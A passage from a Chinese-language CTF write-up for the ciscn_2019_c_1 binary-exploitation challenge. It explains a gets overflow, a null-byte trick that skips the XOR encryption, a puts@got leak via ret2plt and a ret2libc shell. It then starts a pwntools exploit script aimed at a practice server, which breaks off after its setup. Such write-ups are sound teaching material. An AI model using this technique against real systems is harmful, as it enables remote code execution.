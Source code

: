 ```c del={10,35}
      {
        if ( s[x] > 47 && s[x] <= 57 )
          s[x] ^= 0xFu;
      }
      else
      {
        s[x] ^= 0xEu;
      }
    }
    else
    {
      s[x] ^= 0xDu;
    }
    ++x;
  }
  puts("Ciphertext");
  return puts(s);
}
```

基本就是把输入字符串经过一些 `xor` 运算，得到密文。注意到获取输入使用的是 `gets`，所以我们可以覆盖返回地址。程序没有包含任何后门函数，所以我们可以打 shellcode 或者 ROP，但是程序开了 NX，而且 ropper 也没有给出什么 syscall 之类的构造 ROP 链的 gadgets，那就打 ret2plt 泄漏 libc 地址，再打 ret2libc getshell.

不过我们的 payload 经过 `encrypt` 的加密会被破坏，所以一个想法是想办法让我们的输入经过 `encrypt` 的加密出来得到的是 payload 本身，另一种想法是想办法绕过加密逻辑。前者比较麻烦，我们优先思考后者。发现执行加密逻辑前有个判断，如果满足 `if ( v0 >= strlen(s) )` 就不会执行加密逻辑。字符串长度是通过 `strlen` 获取的，这个函数判断字符串结束的方法是检测 `\x00` 字符，所以如果我们把 `\x00` 放在 payload 开头，这个判断就会认为我们的字符串长度为 0，不去执行下面的加密逻辑，成功绕过。

因为 `encrypt` 是返回到 `puts(s)`，由于在此之前我们已经执行过 `puts` 了，所以 got 表中一定有它在 libc 中的真实地址。所以我们可以通过 `puts` 泄漏 `puts@got` 中保存的真实地址，然后算出 libc 基地址，再用 libc 中的 `system` 和 `/bin/sh` 字符串构造 getshell 的 ROP 链。

由于我们返回到 `puts` 泄漏完地址后程序就结束了，所以我们在第一阶段泄漏出地址后需要让程序返回到 `main`，重新运行主菜单逻辑（只要程序没有 exit，就不会改变 libc 基址），之后再把第二阶段的 ROP 链发出去。

由于题目没给 libc，所以远程需要用 `LibcSearcher` 来打。本地打的时候直接用系统的 libc，等本地通了再改成 `LibcSearcher` 去打远端，直接用 `LibcSearcher` 打不通本地，可能因为 libc-database 更新不及时，没有我们本地的 libc 版本。

## Exploit

```python
#!/usr/bin/python

from pwn import ROP, args, context, flat, gdb, log, process, remote, u64

from LibcSearcher.LibcSearcher import LibcSearcher

gdbscript = """
# b *encrypt+61
# b *encrypt+322
# b *encrypt+334
c
"""

FILE = "./ciscn_2019_c_1"
HOST, PORT = "node5.buuoj.cn", 28304

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def to_hex_bytes(data):
    return "".join(f"\\x{byte:02x}" for byte in data)


```